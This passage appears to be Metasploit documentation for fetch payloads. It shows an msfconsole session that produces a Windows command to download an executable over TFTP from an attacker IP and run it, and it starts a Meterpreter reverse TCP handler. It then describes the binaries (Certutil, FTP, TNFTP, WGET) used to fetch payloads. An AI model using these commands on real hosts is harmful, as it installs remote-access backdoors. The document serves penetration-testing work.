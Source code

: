 ```msf

[*] Command to run on remote host: curl -so DOjmRoCOSMn.exe tftp://10.5.135.201:8080/test4 & start /B DOjmRoCOSMn.exe
[*] Payload Handler Started as Job 5

[*] starting tftpserver on 10.5.135.201:8080
[*] Started reverse TCP handler on 10.5.135.201:8547 
msf6 payload(cmd/windows/tftp/x64/meterpreter/reverse_tcp) > netstat -an | grep 8080
[*] exec: netstat -an | grep 8080

udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          
udp        0      0 10.5.135.201:8080       0.0.0.0:*                          

```
There is nothing to stop you from creating a race condition by starting multiple tftp servers with the same IP, port,
and `FETCH_URI` value but serving different payloads.  This will result in a race condition where the payload served is
non-deterministic.


### Windows Only
#### `Certutil`
Certutil is a great choice for Windows targets- it is likely to be present on most recent releases of Windows and is 
highly configurable.  The one troublesome aspect is that there is no insecure mode for Certutil, so if you are using
Certutil with the HTTPS protocol, the certificate must be correct and checked.  It supports `HTTP` and `HTTPS`
protocols.

### Linux Only
#### `FTP`
FTP is an old but useful binary.  While we support using the FTP binary, we do not have an FTP server.  Modern releases
of FTP support both HTTP and HTTPS protocols.  Unfortunately, we only support these modern versions of inline FTP, so it
may not be appropriate for older systems. 

#### `TNFTP`
TNFTP (not to be confused with TFTP) is a newer version of FTP.  It is exactly the same as modern FTP, but sometimes both the legacy FTP and TNFTP are
present on a system, so the command will be `tnftp` rather than `ftp`.

#### WGET
WGET is likely the first choice for a linux-only target.  It supports both HTTPS and HTTP and all Fetch payload options.
It is ubiquitous on Linux hosts and very standard, making it an excellent choice.
